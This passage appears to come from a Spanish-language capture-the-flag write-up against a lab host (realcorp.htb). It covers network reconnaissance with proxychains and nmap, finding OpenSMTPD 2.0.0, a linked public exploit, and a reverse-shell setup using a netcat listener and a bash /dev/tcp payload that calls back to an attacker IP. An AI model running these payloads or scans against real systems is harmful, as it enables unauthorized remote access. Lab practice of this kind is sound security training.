 Ejecutemos el script y veamos si se puede encontrar algún host.

```bash
./dns-scan.sh 

Host (10.241.251.113) found via DNS:
113.251.241.10.in-addr.arpa     name = srvpod01.realcorp.htb.
```

Encontramos con éxito un host: 10.241.251.113 (srvpod01.realcorp.htb). Usemos nmap para encontrar cualquier puerto abierto.

```bash
proxychains -q nmap -sT -Pn -n -v 10.241.251.113

Discovered open port 25/tcp on 10.241.251.113
```

Parece que el puerto 25 (SMTP) está abierto en el host.

```bash
proxychains -q nmap -sT -Pn -n -sC -sV -p 25 10.241.251.113 
Nmap scan report for 10.241.251.113
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
25/tcp open  smtp    OpenSMTPD
| smtp-commands: smtp.realcorp.htb Hello nmap.scanme.org [10.241.251.1], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP, 
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info
```

Parece que el nombre de host del servidor es smtp.realcorp.htb y está ejecutando OpenSMTPD (Versión 2.0.0). Agreguemos el host a nuestro archivo /etc/hosts:

```bash
sudo nano /etc/hosts
10.10.10.224    srv01.realcorp.htb
10.197.243.31   wpad.realcorp.htb
10.197.243.77   ns.realcorp.htb proxy.realcorp.htb
10.241.251.113  smtp.realcorp.htb
```

busquemos un exploit para OpenSMTPD v2.0.0.

# Explotation

Buscando en google encontramos un exploit: https://www.exploit-db.com/exploits/47984

Vamos a enviarnos una revshell:

```bash
nc -nlvp 1234
```

```bash
echo 'bash -c "bash -i >& /dev/tcp/10.10.14.11/1234 0>&1"' > /var/www/html/index.html
```
